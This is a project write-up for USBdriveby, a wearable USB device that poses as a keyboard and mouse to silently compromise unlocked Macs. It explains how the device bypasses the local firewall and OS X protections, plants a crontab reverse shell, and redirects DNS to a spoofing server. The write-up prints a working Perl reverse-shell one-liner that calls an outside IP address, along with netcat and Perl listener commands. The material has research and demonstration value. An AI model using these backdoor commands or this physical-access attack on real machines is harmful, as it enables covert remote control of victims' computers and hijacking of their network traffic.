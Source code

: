 # [USBdriveby](http://samy.pl/usbdriveby)

**USBdriveby** is a device you stylishly wear around your neck which can quickly and covertly install a backdoor and override DNS settings on an unlocked machine via USB in a matter of seconds. It does this by emulating a keyboard and mouse, blindly typing controlled commands, flailing the mouse pointer around and weaponizing mouse clicks.

In this project, we'll learn how to exploit a system's blind trust in USB devices, and learn how a $20 Teensy microcontroller can evade various security settings on a real system, open a permanent backdoor, disable a firewall, control the flow of network traffic, and all within a few seconds and permanently, even after the device has been removed.

by [@SamyKamkar](https://twitter.com/samykamkar) // <code@samy.pl> // <http://samy.pl> // Dec 17, 2014

Code available on [github](https://github.com/samyk/usbdriveby)

<a href="http://www.youtube.com/watch?feature=player_embedded&v=4aRw0FYdf_4
" target="_blank"><img src="http://img.youtube.com/vi/4aRw0FYdf_4/0.jpg" alt="USBdriveby" width="640" height="480" border="10" /></a>

------

# Overview

I often wear a microcontroller around my neck, and have a few for a various fun tasks. One that's more interesting is this, USBdriveby, which emulates a keyboard and mouse when plugged into a machine, exploiting the blind trust machines give USB devices.

Specifically, when you normally plug in a mouse or keyboard into a machine, no authorization is required to begin using them. The devices can simply begin typing and clicking. We exploit this fact by sending arbitrary keystrokes meant to launch specific applications (via Spotlight/Alfred/Quicksilver), permanently evade a local firewall (Little Snitch), install a reverse shell in crontab, and even modify DNS settings without any additional permissions.

While this example is on OS X, it is easily extendable to Windows and *nix.

We even evade OS X's security - while they attempt to prevent network changes being done by just a "keyboard", and even prevent most applications from changing position (special authorized accessibility features must be enabled which we don't have authorization for), we evade both of these with some unprotected applescript and carefully planned mouse movements.

![http://samy.pl/usbdriveby/driveby.jpg](http://samy.pl/usbdriveby/driveby.jpg)

If you haven't checked out [BadUSB](https://srlabs.de/badusb/), please do. The awesome [Karsten Nohl](http://www.cs.virginia.edu/~kn5f/) and the srlabs team have developed some much more advanced methods of USB pwnage and have demonstrated this, though they have not released any code.                                                              


------

# Software

### USBdriveby
You can acquire the USBdriveby microcontroller source code from my github: <https://github.com/samyk/usbdriveby>

I've written it for both Teensy and Arduino microcontrollers, however not all Arduinos are capable of emulating a USB HID keyboard/mouse (the Arduino Nano specifically cannot).

### dns_spoofer.pl
I've created a DNS server which responds to normal DNS requests properly, however sends spoofed answers for specific hostnames. This runs on a remote host and allows us to manipulate the traffic of the system that's been hit by USBdriveby.

This is also available on my github: <https://github.com/samyk/usbdriveby>

### Net::DNS
My DNS spoofer depends on the [Net::DNS](http://www.net-dns.org/) suite of perl modules.

### perl backdoor
We use a perl backdoor I developed as virtually all OS X and *nix machines have perl installed by default. You'll find many of these systems don't come with a C compiler, especially in the bare bones version, but perl is always quietly available.

``perl -MIO::Socket -e'$c=new IO::Socket::INET("72.14.179.47:1337");print$c `$_`while<$c>'``

### netcat
To evade the local router and not require any ports opening up, we produce a reverse shell by connecting out to a server we control every 5 minutes via crontab, and once the connection is established, we can begin sending commands to the compromised machine. If the connection dies, the compromised system will connect back within 5 minutes. [netcat](http://netcat.sourceforge.net/) is an easy way to support this.

`netcat -l 1337`

You could also use perl in lieu of netcat again:

``perl -MIO -e'$c=new IO::Socket::INET(LocalPort,1337,Listen)->accept;print$c $_ while <STDIN>'``

-----

# Hardware

### Teensy
**$20**: [Teensy 3.1](https://www.pjrc.com/teensy/) is an awesome USB based microcontroller. It's small, more powerful than typical Arduinos, and inexpensive. It's perfect for this project with it's small form factor, support for emulating USB devices such as HID keyboards and mice, and it looks rad.

### Chain
Get a cool chain so you can wear your USBdriveby device around as a pendant. You'll get compliments on your jewelry, but little do they know...


-----

# Emulating HID Devices

I go into the code and emulating devices in the video!

-----

# Custom DNS Server

I developed a simple DNS server which actually answers requests properly except in the case of specific hosts we wish to spoof. We can spoof them in the code or simply add them to /etc/hosts as my software spoofs anything in /etc/hosts as well.

-----

# Questions?

Feel free to contact me with any questions!

Follow [@SamyKamkar](https://twitter.com/samykamkar) on Twitter!

You can see more of my projects at <http://samy.pl> or contact me at <code@samy.pl>.


------
